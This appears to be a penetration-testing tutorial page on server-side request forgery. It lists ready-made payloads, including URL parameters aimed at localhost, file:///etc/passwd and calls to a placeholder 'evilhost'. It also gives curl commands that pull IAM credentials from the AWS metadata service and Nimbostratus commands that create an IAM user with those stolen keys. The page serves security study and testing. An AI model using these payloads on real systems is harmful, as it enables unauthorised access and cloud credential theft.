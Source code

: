 # Server-side request forgery

Server-side request forgery \(SSRF\) exploits the trusted relationship between a web server and other backend systems which are not normally accessible to an attacker \(e.g. because of firewalls or application rules\). They are particularly dangerous in cloud infrastructure like AWS, because SSRF allows an attacker to query internal services like [Amazon's metadata API](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) for credentials and other sensitive data.

## Techniques

### Basic

Generally, you'll be looking for poorly-sanitized parameters which accept URLs, either in `GET` or `POST` requests. In the examples below, `localhost` is used in the URL to access to data and services which are only accessible via the local network.

Example `GET` request with a vulnerable open redirect:

```text
http://[host]/page?url=http://localhost/api/getuser/id/1
```

Example `POST` request with a similarly unsanitized URL parameter:

```text
POST /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

url=http://localhost:1234
```

Some SSRF attacks will return a response that you can see on the vulnerable website, but others may be blind.

You can also test protocols other than HTTP:

```text
http://[host]/page.php?url=file:///etc/passwd
http://[host]/page.php?url=dict://[evilhost]:1234/
http://[host]/page.php?url=sftp://[evilhost]:1234/
http://[host]/page.php?url=ldap://localhost:1234/%0astats%0aquit
```

### Attacking AWS with SSRF

Amazon's AWS has an internal metadata service which can be queried from any instance. Attackers can use SSRF vulnerabilities to retrieve instance information and in some cases make changes to the infrastructure. [Amazon's CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-ec2-instances.html) performs a similar function.

There are two metadata standards for the AWS API - the newest one requires you to generate a short-term token before issuing commands. However, the older non-token version does not seem to be going away, so you could simply use `curl http://169.254.169.254/` to get the same data.

The following command from [Amazon's metadata documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) allows you to generate a 6-hour token, save it in a variable and display the top-level metadata items:

```text
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/
```

The top-level metadata items will look something like this: 

```text
ami-id
ami-launch-index
...
profile
public-keys/
reservation-id
security-groups
```

From there, you can make calls to the API to view each of the metadata items in detail. To view security credentials for the instance:

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

Once you have a role name, you can request credentials for that role: 

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/SomeRole

{
  "Code" : "Success",
  "LastUpdated" : "2019-12-03T18:08:16Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA...",
  "SecretAccessKey" : "V...",
  "Token" : "SomeBase64==",
  "Expiration" : "2019-12-04T00:17:43Z"

```

At this point you may want to consider automated AWS metadata enumeration tools like [Nimbostratus](https://andresriancho.github.io/nimbostratus/) to determine the permissions available to that role:

```text
sudo python nimbostratus dump-permissions --access-key=ASIA... --secret-key=V...
```

You can also attempt to create a new user, as a proof-of-concept:

```text
sudo python nimbostratus create-iam-user --access-key=ASIA... --secret-key=p...
```

### Enumerating S3 buckets

## Further reading

* [SSRF: Web Security Academy](https://portswigger.net/web-security/ssrf)
* [SSRF: types and exploits](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978)
* [SSRF and the CapitalOne breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [Nimbostratus: tools for fingerprinting and exploiting Amazon](https://andresriancho.github.io/nimbostratus/)
* [SSRF payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

